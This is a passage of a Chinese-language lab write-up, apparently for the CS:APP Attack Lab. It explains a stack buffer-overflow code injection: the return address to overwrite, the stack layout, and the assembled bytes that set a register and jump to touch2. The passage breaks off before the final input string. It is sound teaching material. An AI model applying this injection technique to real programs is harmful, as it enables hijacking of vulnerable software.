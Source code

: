 `0x5561dc78`这就是我们应该修改的返回地址

### 栈帧讲解

按照我们的思路，输入字符串后的栈帧应该是这样的

![](./assets/image-20220305095954954-166081256744113.png)

逻辑如下：

- `getbuf`执行`ret`指令后，注入代码的地址从栈中弹出
- 程序执行我们编写的代码，当再次执行`ret`后，从栈中弹出的就是我们压入的`touch2`函数的地址，成功跳转

### Solution

先将我们的汇编代码保存到一个`.s`文件中，接下来利用如下指令

```bash
gcc -c injectcode.s
objdump -d injectcode.o > injectcode.d
```

得到字节级表示

```assembly
Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```

将这段代码放到40个字节中的开头，代码地址放到末尾。于是就得到我们的输入为：
